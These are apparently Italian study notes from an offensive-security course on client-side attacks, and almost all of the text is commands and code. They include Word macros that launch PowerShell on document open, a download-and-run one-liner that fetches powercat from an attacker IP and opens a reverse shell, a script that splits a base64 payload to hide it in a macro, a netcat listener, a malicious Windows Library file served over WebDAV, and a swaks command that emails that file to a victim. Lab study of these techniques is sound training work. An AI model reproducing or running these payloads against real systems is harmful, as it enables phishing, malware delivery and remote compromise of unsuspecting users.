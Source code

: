 ## 11.1.1. Information Gathering

```bash
exiftool -a -u brochure.pdf

gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
```

## 11.1.2. Client Fingerprinting
- https://github.com/laramies/theHarvester
- https://canarytokens.com/
- https://canarytokens.com/generate

## 11.2.3. Leveraging Microsoft Word Macros

- Primo esempio di macro:

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

- Secondo esempio di macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

```bash
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powergat.ps4');powergat -c 192.168.119.2 -p 4444 -e powersbel
```

-  Dopo aver convertito questo comando in base64, lo dividiamo in più chunks tramite questo script:

```bash
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Alla fine otteniamo questo:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

- Ci mettiamo in ascolto:

```bash
nc -nvlp 4444
```

## 11.3.1. Obtaining Code Execution via Windows Library Files

```bash
pip3 install wsgidav

mkdir /home/kali/webdav

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

- Creare il file config.Library-ms su windows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.212</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Poi viene creato uno shortcut contenente un payload per scaricare powercat e avviare una reverse shell (RIVEDERE LA SEZIONE 24 Assembling the Pieces).
- Caricato il file config.Library-ms tramite smb:

```bash
cd webdav

smbclient //$IP$/share -c 'put config.Library-ms'
```

## Capstone

```bash
gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/

exiftool -a -u info.pdf

sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.237.199 --body body.txt --header "Subject: Problems" --suppress-data --auth-user test@supermagicorg.com --auth-password test 
```